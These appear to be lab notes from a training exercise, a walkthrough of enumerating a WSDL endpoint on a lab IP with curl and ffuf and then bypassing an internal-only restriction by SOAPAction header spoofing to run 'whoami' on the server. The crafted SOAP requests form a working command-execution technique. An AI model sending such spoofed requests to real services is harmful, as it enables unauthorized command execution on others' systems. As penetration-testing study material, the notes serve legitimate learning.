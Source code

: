 ___

WSDL stands for Web Service Description Language. WSDL is an XML-based file exposed by web services that informs clients of the provided services/methods, including where they reside and the method-calling convention.

```bash
curl http://10.129.202.133:3002/wsdl
```

The response is empty. 

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u  http://10.129.202.133:3002/wsdl -fs 0 
`````

```bash
curl http://10.129.202.133:3002/wsdl?wsdl
```

# SOAPAction Spoofing

```xml
<wsdl:operation name="ExecuteCommand">
<soap:operation soapAction="ExecuteCommand" style="document"/>
```

```xml
<s:element name="ExecuteCommandRequest">
<s:complexType>
<s:sequence>
<s:element minOccurs="1" maxOccurs="1" name="cmd" type="s:string"/>
</s:sequence>
</s:complexType>
</s:element>
```

```bash
curl -X POST http://10.129.202.133:3002/wsdl \
  -H "Content-Type: text/xml; charset=utf-8" \
  -H "SOAPAction: \"ExecuteCommand\"" \
  -d '<?xml version="1.0" encoding="utf-8"?>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:tem="http://tempuri.org/">
   <soapenv:Header/>
   <soapenv:Body>
      <tem:ExecuteCommandRequest>
         <tem:cmd>your_command_here</tem:cmd>
      </tem:ExecuteCommandRequest>
   </soapenv:Body>
</soapenv:Envelope>'
```

error mentioning _This function is only allowed in internal networks_

- We specify _LoginRequest_ in `<soap:Body>`, so that our request goes through. This operation is allowed from the outside.
- We specify the parameters of _ExecuteCommand_ because we want to have the SOAP service execute a `whoami` command.
- We specify the blocked operation (_ExecuteCommand_) in the SOAPAction header

```bash
curl -X POST http://10.129.202.133:3002/wsdl \
  -H "Content-Type: text/xml; charset=utf-8" \
  -H "SOAPAction: \"ExecuteCommand\"" \
  -d '<?xml version="1.0" encoding="utf-8"?>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:tem="http://tempuri.org/">
   <soapenv:Header/>
   <soapenv:Body>
      <tem:LoginRequest>
         <cmd>whoami</cmd>
      </tem:LoginRequest>
   </soapenv:Body>
</soapenv:Envelope>'
```

